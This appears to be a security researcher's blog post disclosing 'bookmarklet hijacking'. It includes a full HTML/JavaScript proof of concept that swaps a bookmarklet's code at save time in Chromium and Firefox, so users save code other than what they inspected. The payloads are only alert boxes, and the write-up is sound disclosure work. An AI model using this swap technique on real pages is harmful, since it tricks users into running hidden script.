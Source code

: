 ```yaml
---
layout: post
title: "Bookmarklet hijacking"
date: 2023-10-26 00:00:00 -0000
categories: ['Ethical hacking', 'Tools', 'Security Research']
tags: [xss, javascript, bookmarklet, hijacking]
author: vavkamil
---
```


I noticed an exciting link shared on Hacker News titled "[Wait, what's a bookmarklet?](https://news.ycombinator.com/item?id=38014069)". I have been using them for a long time, and while reading that discussion, it was nice to see people sharing useful ones they use to make their everyday tasks easier.

The security engineering mind got me thinking about the security implications of saving bookmarks with JavaScript from other websites, especially when readers share links to the GitHub gists.

We already know executing any non-trusted JavaScript is a wrong move. People were being tricked into pasting stuff into the browser console on popular websites and got hacked that way. There were even massive phishing campaigns using malicious [bookmarklets against Discord users](https://breakdev.org/hacked-discord-bookmarklet-attacks/).

But what if the victim is cautious and examines the content of bookmarklet JS before saving them to bookmarks? People often hover over links to see if they lead to malicious sites.

So, I was thinking about changing the content before the user saved it to bookmarks and was experimenting with the ondragstart Event. I came up with a very simple Proof of Concept for Chromium-based browsers and Firefox - [https://gist.github.com/vavkamil/0b167814cabf8787cd4c4ab629614c6e](https://gist.github.com/vavkamil/0b167814cabf8787cd4c4ab629614c6e).

It's a simple PoC where the href attribute specifies the link's destination:

`javascript: (() => { alert(1); })();`

And after saved to bookmarks, it changes to:

`javascript: (() => { alert(2); })();`

You can see it hee: [https://xss.vavkamil.cz/bookmarklet.html](https://xss.vavkamil.cz/bookmarklet.html)

### Chromium Version 118.0.5993.88

<video src="/assets/img/2023/10/bookmarklets_chromium.webm"></video>

### Mozilla Firefox 119.0

<video src="/assets/img/2023/10/bookmarklets_firefox.webm"></video>

```javascript
<html>
<head>
    <title>Bookmarklet hijacking PoC</title>
</head>
<body>
    <h1>Bookmarklet hijacking</h1>
    <h2>Chromium Proof of Concept</h2>

    <h3>Steps to reproduce</h3>
    <p>1. <strong>Double-check that the link executes</strong> <code>alert(1)</code></p>
    <p>2. <strong>Drag & drop the link to Bookmarks (tool)bar</strong></p>
    <p>3. <strong>Double-check that the link executes</strong> <code>alert(1)</code></p>
    <p>4. <strong>Click the link in Bookmarks; it executes</strong> <code>alert(2)</code></p>
    <br>
    <a href="javascript: (() => { alert(1); })();" id="myLink" draggable="true">Save this cool bookmarklet!</a>

    <script>
        const linkElement = document.getElementById('myLink');
        const originalLink = linkElement.href;

        linkElement.addEventListener('dragstart', function(event) {
            const newLink = "javascript: (() => { alert(2); })();";
            event.target.href = newLink;

            // Set the data for the drag event to the new link
            event.dataTransfer.setData('text/uri-list', newLink);
            event.dataTransfer.setData('text/plain', newLink);

            console.log('Link location changed to:', event.target.href);
        });

        linkElement.addEventListener('dragend', function(event) {
            // Reset the link back to its original value after the drag operation has ended
            event.target.href = originalLink;
            console.log('Link location reset to:', event.target.href);
        });
    </script>

    <hr>

    <h2>Firefox Proof of Concept</h2>

    <h3>Steps to reproduce</h3>
    <p>1. <strong>Double-check that the link executes</strong> <code>alert(1)</code></p>
    <p>2. <strong>Right-click & Bookmark link... & Save</strong></p>
    <p>3. <strong>Double-check that the link executes</strong> <code>alert(1)</code></p>
    <p>4. <strong>Click the link in Bookmarks; it executes</strong> <code>alert(2)</code></p>
    <br>
    <a href="javascript: (() => { alert(1); })();" id="myLink_2">Save this cool bookmarklet!</a>

    <script>
        const linkElement_2 = document.getElementById('myLink_2');
        const originalLink_2 = linkElement_2.href;

        linkElement_2.addEventListener('mousedown', function(event) {
            const newLink = "javascript: (() => { alert(2); })();";
            event.target.href = newLink;

            console.log('Link location changed to:', event.target.href);
        });

        linkElement_2.addEventListener('mouseover', function(event) {
            // Reset the link back to its original value after the drag operation has ended
            event.target.href = originalLink;
            console.log('Link location reset to:', event.target.href);
        });
    </script>
</body>
</html>
```
